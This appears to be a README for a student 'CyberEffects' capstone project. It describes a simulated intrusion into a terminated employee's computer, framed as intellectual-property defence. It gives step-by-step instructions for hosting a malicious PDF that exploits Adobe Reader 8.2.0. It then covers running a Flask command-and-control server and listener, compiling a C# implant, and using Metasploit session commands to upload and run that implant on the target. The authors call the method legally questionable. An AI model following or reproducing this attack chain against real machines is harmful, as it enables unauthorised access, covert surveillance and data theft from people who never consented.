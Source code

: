 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

1. Install apache2

2. Copy the index.html to the '/var/www/html' directory

3. Run 'sudo systemctl start apache2' to start the server

4. File can be downloaded at http://***(host network IP)***:80

          Use 'ip addr show' and locate the host network IP

## Setting up vsftpd for the Apache2 server file location

Follow the following videos in order

1. Set up vsftpd [here](https://youtu.be/1WVBC0KBOeE?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

2. Securing FTP server [here](https://youtu.be/N7hwrPiji3c?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

3. Upload to Apache2 server using FTP [here](https://youtu.be/Np_OUB4gvc4?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

**Note** - This has been known to restrict usable ports on the device. Make sure to allow ports 80 and 8080 for the Apache2 PDF download site and Flask server

          sudo ufw allow 80/tcp
          
          sudo ufw allow 8080/tcp
          
          sudo service apache2 restart

## Setting up and running any of the shell scripts

          chmod +x <script name>

          ./<script name>

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh

2. Start flask server that is responsible for communicating with implants
          
          Make note of the IP and port that the flask server is running on so that the implants know where to communicate back to 
          
          Make changes to the 'srvip' variable in implant.cs with the srvip that the flask server uses

3. Build the implant.cs into an executable
          
          mcs implant.cs

4. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh

5. Download and open the malicious PDF on the target machine

6. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
7. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc
